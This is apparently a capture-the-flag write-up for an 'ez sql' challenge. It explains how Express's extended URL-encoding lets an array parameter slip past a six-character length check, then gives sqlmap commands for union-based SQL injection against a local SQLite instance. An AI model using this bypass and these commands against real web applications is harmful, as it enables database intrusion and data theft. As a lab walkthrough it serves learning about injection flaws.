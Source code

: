 # Writeup for ez sql

In the source code we can see that 
```js 
express.urlencoded({ extended: true })
``` 

Which means that we can send data as an array format in the get request as follows https://example.com/?name[0]=hello&name[1]=world

and this will get interpreted as

```js
name = [hello,world]
//here name.length returns 2
```

On the server side

Why is this relevant to us?

Well as we can see that the parameter name is directly passed into the sql query but the thing here is there is a length check, that means the name parameter can't be more than 6 letters in length inorder to bypass this we give name in the format of the above mentioned exploit.

We're using using sqlmap here (Just to advance my knowledge in it)

sqlmap --url "http://localhost:3000/search?name[0]=lol&name[1]=2" -p "name[0]" --level 5 --risk 3

and on the server inorder to be less noisy

we can use the following sqlmap query(reduce the level and risk values and we're mentioning a union based attack here)

sqlmap --url "http://localhost:3000/search?name[0]=lol&name[1]=2" -p "name[0]" --level 2 --risk 1 --dbms=sqlite --tables --technique=U

That's it
